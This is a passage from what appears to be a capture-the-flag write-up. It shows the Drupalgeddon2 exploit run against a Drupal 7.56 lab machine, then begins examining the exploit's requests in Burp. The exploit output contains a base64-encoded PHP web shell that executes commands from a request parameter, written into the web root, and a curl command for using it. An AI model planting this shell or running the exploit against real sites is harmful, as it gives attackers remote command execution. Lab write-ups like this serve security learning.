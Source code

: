 Then I ran the exploit targeting `http://127.0.0.1:8888`:



    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://127.0.0.1:8888
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://127.0.0.1:8888/
    --------------------------------------------------------------------------------
    [+] Found  : http://127.0.0.1:8888/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo TRZZJAMZ
    [+] Result : TRZZJAMZ
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://127.0.0.1:8888/shell.php)
    [i] Response: HTTP 404 // Size: 5
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://127.0.0.1:8888/shell.php' -d 'c=hostname'
    armageddon.htb>>



There are eight new requests in Burp:

![](/img/image-20210326163257806.png)

The first thing it does is pull the `CHANGELOG.txt`, just like I did
above. Then it tries a couple paths to this `/user/password` form, and
gets 500 and 404. It goes back to the one that gave 500, and adds
additional parameters:
